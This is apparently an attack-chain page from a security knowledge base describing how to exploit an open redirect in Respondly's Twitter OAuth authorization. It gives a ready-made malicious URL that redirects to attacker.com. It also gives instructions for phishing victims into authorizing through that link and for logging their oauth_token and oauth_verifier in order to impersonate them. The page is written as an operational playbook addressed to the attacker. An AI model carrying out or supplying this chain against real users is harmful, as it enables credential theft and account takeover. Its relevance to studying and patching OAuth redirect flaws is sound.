

# OAuth Open Redirect in Respondly Twitter Authorization Leading to Token Theft

Multi-stage attack chain demonstrating a complete attack workflow exploiting an open redirect in Respondly's Twitter OAuth process to redirect users to attacker-controlled sites and capture sensitive OAuth credentials.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- Web browser for testing
- Attacker-controlled domain (e.g., hosted phishing page)

### Target Environment

- Respondly application (https://app.respond.ly)
- Twitter OAuth service
- Web platform with no specific ports required

### Initial Access Requirements

- No prior credentials needed
- Ability to host a malicious site
- Social engineering access to victims (e.g., via email or links)

## Detailed Attack Procedures

### Step 1: Construct Malicious OAuth URL
procedure: [[procedures/Construct-Malicious-OAuth-Redirect-URL]]

**Objective**: Create a crafted URL that exploits the open redirect vulnerability in the requestTokenAndRedirect parameter to point to an attacker-controlled domain.

**Instructions**: Manually construct the URL by appending the requestTokenAndRedirect parameter to the OAuth endpoint, setting it to your malicious domain. For example:

https://app.respond.ly/_oauth/twitter/?requestTokenAndRedirect=https://attacker.com/callback

Test the URL in a browser to ensure it initiates the OAuth flow without errors.

**Expected Output**: A valid URL that starts the Twitter authorization process and redirects post-authorization.

**Success Indicators**:
- URL loads the Respondly OAuth page without validation errors
- Redirect parameter is accepted

### Step 2: Trick Victim into Authorizing OAuth
procedure: [[procedures/Trick-Victim-into-Authorizing-OAuth]]

**Objective**: Use social engineering to lure the victim into clicking the malicious URL and completing the Twitter authorization, triggering the redirect.

**Instructions**: Distribute the crafted URL via phishing email, social media, or direct message, disguising it as a legitimate Respondly or Twitter integration request. Instruct the victim to authorize their Twitter account through the link.

Once clicked, the victim will be prompted to log in to Twitter and grant permissions to Respondly.

**Expected Output**: Victim completes authorization, leading to automatic redirection to the attacker-specified domain.

**Success Indicators**:
- Victim accesses the URL and authorizes
- Browser redirects to attacker site post-auth

### Step 3: Capture OAuth Token and Verifier
procedure: [[procedures/Capture-OAuth-Token-and-Verifier]]

**Objective**: Intercept the OAuth token and verifier parameters sent to the attacker-controlled site for further exploitation, such as account takeover or phishing.

**Instructions**: On the attacker-controlled domain, implement a simple web page or script to log query parameters from the incoming redirect. The redirect will append oauth_token and oauth_verifier to the URL (e.g., https://attacker.com/callback?oauth_token=abc&oauth_verifier=xyz).

Capture and store these values for use in completing the OAuth exchange or impersonating the victim.

**Expected Output**: Logged OAuth token and verifier values.

**Success Indicators**:
- Parameters received on attacker site
- Tokens can be used to access victim's Twitter data via Respondly

## Attack Chain Summary

### Key Achievements

1. Successful exploitation of unvalidated redirect parameter in OAuth flow
2. Redirection of victim to malicious site during sensitive authorization
3. Capture of OAuth credentials enabling potential account compromise

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Phishing]] Phishing
- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Unsecured Credentials]] Unsecured Credentials

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Collection]] Collection

---
*Last updated: 2024-10-01T00:00:00Z*
